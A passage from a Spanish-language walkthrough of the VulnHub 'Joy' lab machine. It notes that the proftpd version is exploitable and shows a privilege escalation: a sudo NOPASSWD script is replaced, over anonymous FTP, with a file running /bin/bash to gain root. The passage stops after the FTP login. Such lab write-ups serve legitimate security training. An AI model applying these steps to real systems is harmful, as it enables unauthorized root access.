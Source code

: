 También podríamos haber usado un exploit ya que la versión de `proftpd`{: .filepath} es vulnerable a ejecución de código.

![searchsploit](/assets/img/commons/vulnhub/joy/searchsploit.png){: .center-image }


## Escalación de privilegios

---

Ingresamos con el usuario `patrick` y con `sudo -l`{: .filepath} listamos los permisos sobre el sistema.

```bash
patrick@JOY:~$ sudo -l
sudo -l
Matching Defaults entries for patrick on JOY:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User patrick may run the following commands on JOY:
    (ALL) NOPASSWD: /home/patrick/script/test
patrick@JOY:~$
```

Tenemos permisos completos para ejecutar el archivo `test`{: .filepath}.

Probamos qué hace el script.

```bash
patrick@JOY:~$ sudo /home/patrick/script/test
sudo /home/patrick/script/test
I am practising how to do simple bash scripting!
What file would you like to change permissions within this directory?
prueba
What permissions would you like to set the file to?
775
Currently changing file permissions, please wait.
chmod: cannot access '/home/patrick/script/prueba': No such file or directory
Tidying up...
Done!
```

Como observamos el script busca archivos dentro de la carpeta `script`, pero no tenemos acceso, sólo root.

Lo que podemos hacer, ya que no podemos modificar el contenido del archivo test, es reemplazarlo con uno nuestro mediante `ftp`, obteniendo la shell como root.

```bash
❯ cat rootshell
───────┬──────────────────────────────────────────────────────────────────────────────────────────────────────────────
       │ File: rootshell
───────┼──────────────────────────────────────────────────────────────────────────────────────────────────────────────
   1   │ /bin/bash
───────┴──────────────────────────────────────────────────────────────────────────────────────────────────────────────

❯ ftp 10.11.12.24
Connected to 10.11.12.24.
220 The Good Tech Inc. FTP Server
Name (10.11.12.24:lvs3c): anonymous
```